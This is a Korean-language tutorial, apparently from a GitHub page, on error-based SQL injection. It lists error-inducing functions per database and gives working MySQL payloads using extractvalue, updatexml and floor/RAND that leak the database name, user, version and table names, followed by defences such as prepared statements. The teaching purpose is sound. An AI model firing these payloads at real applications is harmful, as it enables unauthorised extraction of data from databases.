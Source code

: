 # 에러 기반 SQL 인젝션 (Error-based SQL Injection)

`Error-based SQL Injection`은 **데이터베이스가 발생시키는 오류 메시지를 이용**하여 내부 정보를 추출하는 기법이다. 이 방식은 쿼리에 오류를 유발시켜, 그 오류 메시지에 포함된 데이터를 기반으로 공격자가 시스템 구조나 테이블 정보를 알아내는 데 사용된다.

에러 기반 SQLi는 명확한 피드백이 존재하기 때문에 추출 속도가 빠르고 상대적으로 단순한 편이지만, 최근 보안 설정에서는 **에러 메시지를 숨기는 경우가 많아** 제한적인 환경에서만 유효할 수 있다.

---

## 특징

* 응용 프로그램이 DB 오류 메시지를 사용자에게 그대로 반환할 때 사용 가능
* **빠르고 직관적**인 정보 추출이 가능
* 정보가 에러 메시지 내에 **직접 노출**됨

---

## 공격 방식

공격자는 쿼리의 일부로 **오류를 유도**하는 함수를 삽입하고, 그 결과로 나타나는 오류 메시지를 통해 데이터를 추출한다. 대표적으로 `extractvalue()`, `updatexml()`, `floor()` 등의 함수가 사용된다.

---

## DBMS 별 주요 기법

| DBMS           | 주요 함수 / 기법                                                                             |
| -------------- | -------------------------------------------------------------------------------------- |
| **MySQL**      | `extractvalue()`, `updatexml()`, `floor()`, `geometrycollection()` 등으로 에러를 발생시켜 정보 노출  |
| **MSSQL**      | `convert()`, `cast()`, `openquery()`, `raiserror()` 등을 이용한 타입 변환 또는 강제 오류 유도           |
| **Oracle**     | `to_number()`, `utl_inaddr.get_host_address()`, `dbms_xdb_version.checkin()` 등으로 에러 발생 |
| **PostgreSQL** | `to_number()`, 잘못된 타입 변환 등                                                             |

---

## MySQL 예시

### 1. `extractvalue()` 함수 활용

```sql
' AND extractvalue(1, concat(0x7e, (SELECT database()), 0x7e)) -- 
```

* XML 경로 오류를 발생시키면서 DB 이름이 오류 메시지에 출력됨

### 2. `updatexml()` 함수 활용

```sql
' AND updatexml(NULL, concat(0x7e, (SELECT user()), 0x7e), NULL) --
```

* XML 업데이트 중 경로 오류 발생 시 사용자 정보가 오류 메시지로 출력

### 3. `floor()` 함수 활용

```sql
' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT version()), FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y) --
```

* `GROUP BY` 와 `RAND()` 를 활용하여 중복된 키 발생 시도 → 에러 메시지 유도

---

## 페이로드 예시

| 목적          | 페이로드 예시                                                                                                                                                                            |
| ----------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 현재 DB 이름 추출 | `' AND extractvalue(1, concat(0x7e, database(), 0x7e)) --`                                                                                                                         |
| 현재 사용자 확인   | `' AND updatexml(NULL, concat(0x7e, user(), 0x7e), NULL) --`                                                                                                                       |
| DB 버전 확인    | `' AND extractvalue(1, concat(0x7e, @@version, 0x7e)) --`                                                                                                                          |
| 테이블명 유도     | `' AND updatexml(NULL, concat(0x7e, (SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1), 0x7e), NULL) --`                                   |
| 중복 키 에러 이용  | `' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT table_name FROM information_schema.tables LIMIT 0,1), FLOOR(RAND(0)*2)) a FROM information_schema.tables GROUP BY a) b) --` |

---

## 대응 방안

* **오류 메시지 숨기기**: 실제 운영환경에서는 오류 메시지를 사용자에게 보여주지 않아야 함
* **Prepared Statement 사용**: 파라미터를 분리하여 쿼리 자체에 직접 사용자 입력이 포함되지 않도록 설계
* **화이트리스트 기반 필터링**: 허용된 입력값만 통과시키는 검증 방법 적용
* **웹 방화벽(WAF) 사용**: 공격 패턴 탐지 및 차단

---

## 정리

> Error-based SQL Injection은 시스템이 반환하는 **에러 메시지를 그대로 노출**할 경우 강력하고 빠르게 정보를 추출할 수 있는 인젝션 방식이다.

> 그러나 많은 시스템이 기본적으로 에러 메시지를 숨기고 있어 점차 사용이 제한되고 있으며, `Blind SQL Injection`과 함께 병행되거나 사전 확인용으로 많이 활용된다.

> 보안을 강화하려면 **오류 메시지 관리**, **입력값 검증**, 그리고 **Prepared Statement 사용**은 필수적이다.

## 참고 사이트
[NetSPI](https://sqlwiki.netspi.com/injectionTypes/errorBased/#mysql "Error 기반 SQL 인젝션")

[Oracle](https://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet "Oracle SQL Injection Cheat Sheet")

<hr />
